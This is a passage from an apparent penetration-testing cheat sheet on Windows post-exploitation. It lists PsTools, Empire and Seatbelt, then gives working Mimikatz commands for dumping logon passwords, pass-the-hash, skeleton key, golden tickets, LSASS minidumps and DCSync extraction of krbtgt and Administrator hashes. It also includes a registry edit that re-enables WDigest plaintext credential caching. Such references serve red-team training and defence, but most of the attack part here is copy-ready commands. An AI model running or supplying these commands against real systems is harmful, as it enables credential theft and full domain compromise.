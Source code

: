   - `PsExec` - Execute processes on remote machine
  - `PsFile` - Displays list of files opened remotely.
  - `PsGetSid` - Translate SID to display name and vice versa
  - `PsKill` - Kill processes on local or remote machine
  - `PsInfo` - Displays installation, install date, kernel build, physical memory, processors type and number, etc.
  - `PsList` - Displays process, CPU, Memory, thread statistics
  - `PsLoggedOn` - Displays local and remote logged users
  - `PsLogList` - View Event logs
- localrecon.cmd: Utility to generate a summary of a Windows system: <https://github.com/bitsadmin/miscellaneous/blob/master/localrecon.cmd>
- Empire: post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent: <https://github.com/EmpireProject/Empire>
- Seatbelt: C# project that performs a number of security oriented host-survey "safety checks": <https://github.com/GhostPack/Seatbelt>

#### Mimikatz

- Mimikatz 2.0 - Golden Ticket Walkthrough: <https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html>
- General commands:
    ```
    privilege::debug

    sekurlsa::logonPasswords full
    sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

    misc::skeleton

    ipconfig /all
    whoami /user
    lsadump::lsa /inject /name:krbtgt
    kerbros::golden /domain:[Domain] /sid:[SID] /rc4:[NTLM Hash] /user:[Username To Create] /id:500 /ptt
    pushd \\WINSERVER01\c$
    cd WINDOWS\NTDS
    ```
- If WDigest is disabled: 
    ```
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    ```
- Export memory dump and use it in Mimikatz:
    ```
    Get-Process lsass | Out-Minidump
    sekurlsa::minidump lsass_592.dmp
    ```
- Using VMWare / Hibernate file: <http://woshub.com/how-to-get-plain-text-passwords-of-windows-users/>
- Mimikatz features: <https://adsecurity.org/?page_id=1821>
- DCSync
  - <https://adsecurity.org/?p=1729>
    ```bash
    mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
    mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator"
    ```
  - "impersonates" a Domain Controller and requests account password data from the targeted Domain Controller.
  - Required Permissions: Any member of `Administrators`, `Domain Admins`, or `Enterprise Admins` as well as `Domain Controller` computer accounts. Read-Only Domain Controllers are not allowed to pull password data for users by default.
  - Prior to DCSync was to run Mimikatz or Invoke-Mimikatz on a Domain Controller to get the `KRBTGT password hash` to create `Golden Tickets`